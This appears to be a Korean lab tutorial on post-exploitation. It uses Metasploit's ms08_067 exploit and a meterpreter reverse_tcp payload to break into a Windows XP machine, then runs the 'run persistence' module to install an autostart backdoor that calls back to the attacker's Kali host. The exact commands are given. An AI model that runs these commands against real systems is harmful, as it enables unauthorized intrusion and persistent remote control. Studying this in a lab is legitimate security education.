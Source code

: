 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
[img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  
